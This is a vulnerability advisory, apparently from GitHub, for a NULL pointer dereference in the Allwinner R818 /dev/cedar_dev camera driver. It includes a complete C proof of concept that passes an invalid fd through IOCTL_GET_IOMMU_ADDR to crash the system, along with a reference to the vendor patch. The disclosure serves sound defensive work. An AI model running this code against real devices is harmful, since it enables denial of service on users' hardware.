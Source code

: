 ## Background
Allwinner R818 SoC is made for smart speakers with a screen which is a processor for use in Android-based
It integrates quad-core 64-bit CortexTM-A53 CPU and Imagination PowerVR GE8300 GPU to ensure response rapidity and
running smoothness for daily application, such as on-line video, web browsing, and so on

## Description
There is a NULL Pointer Deference in the camera driver "/dev/cedar_dev". An third-app could use the ioctl cmd "IOCTL_GET_IOMMU_ADDR"to cause a system crash.

## Affect Versions
Soc: Allwinner R818 
System: R818 Android Q 
SDK Version: V1.0 

## POC
The problem code is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021015-5f952b84-0027-445b-aea6-877f01378364.png)

The param sUserIommuParam are from userspace which could use ioctl cmd "IOCTL_GET_IOMMU_ADDR" to pass to driver. The code do not judge if the pVeIommuBuf->fd are valid and the function dma_buf_get will return Null if the pVeIommuBuf->fd is invalid.

The POC is as follow:
```
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "cedar_ve.h"

struct VE_PROC_INFO {
    unsigned char   channel_id;
    unsigned int    proc_info_len;
};

struct cedarv_env_infomation_compat {
    unsigned int phymem_start;
    int  phymem_total_size;
    int  address_macc;
};

struct user_iommu_param {
    int             fd;
    unsigned int    iommu_addr;
};

#define DEV_NAME                     "/dev/cedar_dev"

int main(){
    int fd = open(DEV_NAME, O_RDONLY, 0);
    int ret = 0;
    if (fd <= 0) {
        printf("open %s failed \n", DEV_NAME);
        return -1;
    }
        // IOCTL_GET_IOMMU_ADDR
        struct user_iommu_param user_iommu_param;
        user_iommu_param.fd = 0;
        user_iommu_param.iommu_addr = 0xffff;
        ret =  ioctl(fd, IOCTL_GET_IOMMU_ADDR, &user_iommu_param);
        if (ret < 0) {
            printf("IOCTL_GET_IOMMU_ADDR Error!!\n");
            return -1;
        } else {
            printf("IOCTL_GET_IOMMU_ADDR Succeed!!\n");
        }
    return 0;
}

```

The crash log is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021450-f5dc253f-7ca5-436a-a811-39086a667533.png)

![image](https://user-images.githubusercontent.com/13774458/129021466-a58f312a-3bcb-494f-a292-2b8d3cbf8273.png)

Could see the crash is locate in "compat_cedardev_ioctl"

## Patch
The patch of Allwinner is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021613-1a935512-36aa-43e6-a165-3a2e3bb3fc53.png)


## References
https://www.cnvd.org.cn/flaw/show/CNVD-2021-49170

https://vul.wangan.com/a/CNVD-2021-49170

https://www.allwinnertech.com/index.php?c=product&a=index&id=92
